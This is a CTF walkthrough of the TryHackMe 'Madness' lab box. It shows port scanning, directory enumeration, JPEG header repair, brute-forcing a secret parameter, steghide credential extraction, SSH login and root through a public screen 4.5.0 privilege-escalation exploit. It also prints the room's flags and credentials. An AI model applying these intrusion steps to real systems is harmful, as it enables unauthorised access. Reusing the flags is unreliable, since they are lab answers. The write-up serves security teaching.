

# Madness CTF Walkthrough

**Target:** Madness
**Source:** [TryHackMe](https://tryhackme.com/room/madness)
**Difficulty:** Easy
**Target IP:** 10.81.160.157

## Table of Contents
- [Overview](#overview)
- [Reconnaissance](#reconnaissance)
- [Web Enumeration & Hidden Directory](#web-enumeration--hidden-directory)
- [Polyglot Image & Steganography](#polyglot-image--steganography)
- [Brute-Forcing the Secret Parameter](#brute-forcing-the-secret-parameter)
- [Second Steganography Layer](#second-steganography-layer)
- [Initial Foothold via SSH (joker)](#initial-foothold-via-ssh-joker)
- [Privilege Escalation via screen 4.5.0](#privilege-escalation-via-screen-450)
- [Room Answers](#room-answers)
- [Vulnerabilities](#vulnerabilities)
- [Attack Chain Summary](#attack-chain-summary)
- [Tools Used](#tools-used)
- [References](#references)

---

## Overview

Madness is an easy-difficulty Linux box built around a multi-layered steganography
and OSINT-style puzzle rather than a traditional web exploit. The path to a
foothold involves fixing a deliberately corrupted JPEG header to reveal a
hidden directory, brute-forcing a numeric "secret" parameter to unlock a
passphrase, and extracting two separate `steghide`-embedded payloads to
recover a ROT13-encoded username and an SSH password. Privilege escalation
is a well-known public exploit against a vulnerable `screen` binary left on
the system.

**Key Skills Required:**
- Web content discovery (`gobuster`)
- File-signature repair and binary inspection (`xxd`, `dd`, magic bytes)
- Steganography extraction (`steghide`)
- Parameter brute forcing (custom Python)
- Cipher recognition (ROT13)
- Local privilege escalation via a known CVE/exploit-db script

---

## Reconnaissance

### Network Scanning

```bash
nmap -sVC -O -p- 10.81.160.157
```

**Results:**

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80/tcp | http | Apache httpd 2.4.18 (Ubuntu) |

Only the default Apache page is served on port 80, so the web root needs
directory brute forcing to find anything useful.

---

## Web Enumeration & Hidden Directory

```bash
gobuster dir -u http://10.81.160.157 -w /usr/share/wordlists/dirb/common.txt
```

```
index.php            (Status: 200) [Size: 11320]
```

Inspecting the page source reveals an image tag with a suspicious HTML
comment:

```html

<!--They will never find me-->
```

Attempting to open `thm.jpg` directly in a browser fails: *"The image...
cannot be displayed because it contains errors."*

---

## Polyglot Image & Steganography

```bash
wget http://10.81.160.157/thm.jpg
file thm.jpg
```

```
thm.jpg: data
```

A hex dump shows the file actually starts with a **PNG** magic number
(`89 50 4E 47`) despite the `.jpg` extension — the real JPEG header has been
deliberately stripped off:

```bash
xxd thm.jpg | head
```

```
00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
```

The correct JPEG/JFIF header bytes are patched back onto the front of the
file:

```bash
printf '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01' | dd of=thm.jpg bs=1 conv=notrunc
file thm.jpg
```

```
thm.jpg: JPEG image data, JFIF standard 1.01, ... 400x400, components 3
```

With the header fixed, the image opens normally and reveals the hidden
directory name: `/th1s_1s_h1dd3n`.

---

## Brute-Forcing the Secret Parameter

```bash
curl http://10.81.160.157/th1s_1s_h1dd3n/
```

The page prompts for a numeric "secret" (0–99) via a `?secret=` GET
parameter:

```html
<!-- It's between 0-99 but I don't think anyone will look here-->
```

A short Python script iterates `secret=0` through `secret=99`, comparing
response length to spot the correct value (most return length 408; the
right one returns something different):

```bash
python3 secret.py
```

```
secret=73  len=445
```

```bash
curl http://10.81.160.157/th1s_1s_h1dd3n/?secret=73
```

```
Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B
```

A `steghide` passphrase has been recovered: `y2RPJ4QaPF!B`.

---

## Second Steganography Layer

The original `thm.jpg` is checked for embedded data using the recovered
passphrase:

```bash
steghide info thm.jpg
steghide extract -sf thm.jpg
```

```
embedded file "hidden.txt": ... encrypted: rijndael-128, cbc

cat hidden.txt
Fine you found the password!
Here's a username
wbxre
```

A second image shared on the room page (`5iW7kC8.jpg`) hides a further
file, this time with an **empty** passphrase:

```bash
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg   # passphrase: just hit enter
cat password.txt
```

```
Here take my password
*axA&GF8dP
```

The username `wbxre` is recognized as ROT13-encoded:

```bash
echo "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
joker
```

Recovered credentials: `joker : *axA&GF8dP`

---

## Initial Foothold via SSH (joker)

```bash
ssh joker@10.81.160.157
```

```bash
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

> **Foothold / user flag:** `THM{d5781e53b130efe2f94f9b0354a5e4ea}`

---

## Privilege Escalation via screen 4.5.0

`sudo -l` confirms no sudo rights for `joker`. A SUID sweep turns up nothing
directly exploitable, but a version check on installed binaries reveals a
vulnerable `screen` build:

```bash
find / -perm -4000 2>/dev/null
```

```
/bin/screen-4.5.0   -> exploit
```

`screen` 4.5.0 is vulnerable to a known local privilege-escalation exploit
(ExploitDB #41154). The exploit script is written to the target in `/tmp`,
made executable, and run:

```bash
cd /tmp
nano exploit.sh
chmod +x exploit.sh
./exploit.sh
```

```
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
[+] done!

# whoami
root
# cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

> **Root flag:** `THM{5ecd98aa66a6abb670184d7547c8124a}`

---

## Room Answers

| # | Flag | Value |
|---|------|-------|
| 1 | user.txt | `THM{d5781e53b130efe2f94f9b0354a5e4ea}` |
| 2 | root.txt | `THM{5ecd98aa66a6abb670184d7547c8124a}` |

---

## Vulnerabilities

### 1. Obfuscated / Corrupted File Headers Used as Weak Security (Low)

**Description:** `thm.jpg` had its JPEG header deliberately stripped, hiding
its content behind what is effectively "security through broken formatting."

**Impact:** No real security benefit; a few bytes of header reconstruction
fully defeats it.

**Mitigation:** N/A — this is an intentional CTF puzzle mechanic rather
than a representative vulnerability, but in a real deployment, obfuscation
should never be relied on as an access control.

### 2. Weak, Brute-Forceable Access Control Parameter (Medium)

**Description:** The hidden directory gated its content behind a two-digit
numeric parameter with no rate limiting.

**Impact:** The entire protection was defeated with under 100 automated
requests.

**Mitigation:**
- Never gate sensitive content behind small, brute-forceable secrets.
- Rate-limit or lock out repeated failed attempts on sensitive endpoints.

### 3. Credentials Hidden in Steganographic Payloads (Medium)

**Description:** SSH credentials for `joker` were distributed via
`steghide`-embedded files inside JPEGs, one of them unprotected (empty
passphrase).

**Impact:** Full SSH credential disclosure once the images were located.

**Mitigation:**
- Never distribute live credentials via steganography or any out-of-band
  "security through obscurity" channel.
- Rotate credentials immediately after any CTF/testing exercise.

### 4. Vulnerable `screen` Binary Enabling Local Privilege Escalation (Critical)

**Description:** `screen` 4.5.0 is present on the system, vulnerable to a
public local privilege-escalation exploit (ExploitDB #41154) via
`/etc/ld.so.preload` abuse.

**Impact:** Full root compromise from an unprivileged shell.

**Mitigation:**
- Patch or remove vulnerable `screen` installations.
- Apply routine OS/package patching and track CVEs for all installed
  software.

---

## Attack Chain Summary

```
Nmap scan → SSH, HTTP
    ↓
gobuster → index.php → HTML comment hints at thm.jpg
    ↓
xxd/dd → fix stripped JPEG header → reveals /th1s_1s_h1dd3n
    ↓
python secret-brute → secret=73 → passphrase: y2RPJ4QaPF!B
    ↓
steghide extract (thm.jpg, passphrase) → username: wbxre (ROT13 → joker)
    ↓
steghide extract (5iW7kC8.jpg, empty pass) → password: *axA&GF8dP
    ↓
ssh joker → foothold, user.txt
    ↓
find vulnerable screen-4.5.0 → run public exploit (exploit-db 41154)
    ↓
root shell → root.txt
    ↓
Room complete
```

---

## Tools Used

| Tool | Purpose |
|------|---------|
| Nmap | Port scanning and service/OS detection |
| Gobuster | Hidden directory discovery |
| cURL / wget | Fetching web content and files |
| xxd / dd | Hex inspection and JPEG header repair |
| steghide | Steganography extraction |
| Python | Custom secret-parameter brute forcer |
| screen 4.5.0 exploit (ExploitDB 41154) | Local privilege escalation |

---

## References

- [TryHackMe — Madness](https://tryhackme.com/room/madness)
- [List of file signatures (Wikipedia)](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [ExploitDB 41154 — screen 4.5.0 LPE](https://www.exploit-db.com/exploits/41154)

---
